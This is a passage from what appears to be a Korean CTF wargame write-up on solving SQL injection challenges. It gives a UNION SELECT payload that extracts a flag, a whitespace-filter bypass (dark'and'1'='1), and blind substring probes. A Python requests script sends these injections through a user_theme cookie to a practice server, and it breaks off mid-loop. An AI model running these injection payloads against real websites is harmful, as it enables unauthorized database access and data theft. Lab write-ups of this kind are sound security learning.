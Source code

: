 ```json
[
  {
    "comment_id": "id",

  },
  {
    "comment_id": "flag_name",

  },
  {
    "comment_id": "flag_value",

  },
  {
    "comment_id": "description",
 
  }
]
```

### 플래그 획득
1 UNION SELECT flag_value, 2, 3, 4, 5, FROM secret_flags--+


## [테마고르기] 문제에 들어가면 아래와 같은 웹페이지를 확인할 수 있습니다.

다른문제들 보다 많은 시간을 투자한 게임, 패치 아니였으면 못 풀었을 것 같다. 

<img width="987" alt="Image" src="https://github.com/user-attachments/assets/b8317f43-d098-45bd-be8a-679ac49de211" />

먼저 보이는 것은 JS 파일을 보면 `theme.php`로 이동한다는 것과 **쿠키를 사용한다는 점**이다.

### ✅ SQLi 성공 여부

계속 해보니까 **공백을 기준으로 단어 단위 필터링**을 하는 것 같길래  
`dark dark`, `dark&dark` 등 시도해봤고,  
결국 `dark'and'1'='1`이 성공하는 것을 확인했다.


### ✅ DB명 확인

- `union`, `select` 등 필터링되어 있어 Blind 방식으로 진행
- `dark'and(substring(database(),1,1))='s` 이런 식으로 한 글자씩 확인
- 워게임 특성상 `spec~`일 것이라 추정

```python
import requests

# 타겟 설정
url = "http://ctf.segfaulthub.com:2984/spec4/theme.php"
charset = "abcdefghijklmnopqrstuvwxyz0123456789_"
max_length = 30

# 결과 저장
db_name = ""

for pos in range(1, max_length + 1):
    found = False
    for c in charset:
        payload = f"dark'and(substring(database(),{pos},1))='{c}"
        cookies = {"user_theme": payload, "session": ""}  # 빈 세션 유지
        print(f"[?] Testing position {pos} with char '{c}'... ", end="")

        res = requests.get(url, cookies=cookies)

```
